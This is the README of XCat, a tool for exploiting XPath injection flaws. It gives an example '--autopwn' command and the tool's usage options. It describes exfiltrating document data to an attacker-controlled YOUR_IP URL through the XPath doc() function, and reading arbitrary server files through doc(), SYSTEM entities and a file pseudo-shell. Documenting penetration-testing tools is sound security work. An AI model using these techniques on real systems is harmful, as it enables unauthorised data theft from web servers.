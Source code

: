XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only dependency is [Twisted](http://www.twistedmatrix.com))
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The simplest command you can run on this site is:
    python xcat.py --true "Book found" --arg "title=Bible" --method POST --autopwn http://localhost:80
You have to specify a condition keyword or HTTP status code (true, false, error), an argument for the attack to be appended to and a HTTP method to use.
The --autopwn flag will make xcat automatically detect more exotic features (xpath version, quote character and various out of bound attacks).

Usage
-----
    usage: xcat.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
                   [--true TRUE_KEYWORD | --false FALSE_KEYWORD | --error ERROR_KEYWORD]
                   [--true-code TRUE_CODE | --false-code FAIL_CODE | --error-code ERROR_CODE]
                   [--autopwn] [--schema-only] [--quotecharacter QUOTE_CHARACTER]
                   [--executequery EXECUTEQUERY] [--max_search SEARCH_LIMIT]
                   [--timeout TIMEOUT] [--stepsize STEP_SIZE]
                   [--normalize {NFD,NFC,NFDK,NFKC}] [--xversion {1,2,auto}]
                   [--lowercase] [--regex] [--connectback CONNECTBACK]
                   [--notfoundstring NOTFOUNDCHAR] [--fileshell] [--getcwd]
                   [--useragent USER_AGENT] [--timeit] [--ignorecomments]
                   [--codepointstart CODEPOINTSTART]
                   URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
